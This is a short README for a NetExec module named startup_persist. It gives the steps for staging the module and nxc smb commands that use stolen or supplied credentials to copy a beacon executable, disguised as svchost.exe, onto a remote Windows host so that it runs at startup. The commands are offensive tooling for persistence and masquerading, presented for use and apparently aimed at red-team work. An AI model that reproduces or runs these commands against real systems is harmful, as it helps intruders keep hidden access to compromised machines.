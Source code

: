 # NXC-Extension

## Staging
```
Save Python script to:
/home/kali/.nxc/modules/startup_persist.py
/usr/lib/python3/dist-packages/NetExec/nxc/modules/startup_persist.py

```

## Execution
```
nxc smb $IP -u '$username' -p '$password' -M startup_persist -o FILEPATH=/home/kali/Desktop/beacon.exe FILENAME=svchost.exe
  or
nxc smb $IP -u '$username' -p '$password' -M startup_persist -o FILEPATH=/home/kali/Desktop/beacon.exe FILENAME=svchost.exe USER=$user
```

### Video
https://vimeo.com/1076489136
![nxcpic](https://github.com/user-attachments/assets/f29bbb7a-1926-45a6-9f52-9f82e26127a3)
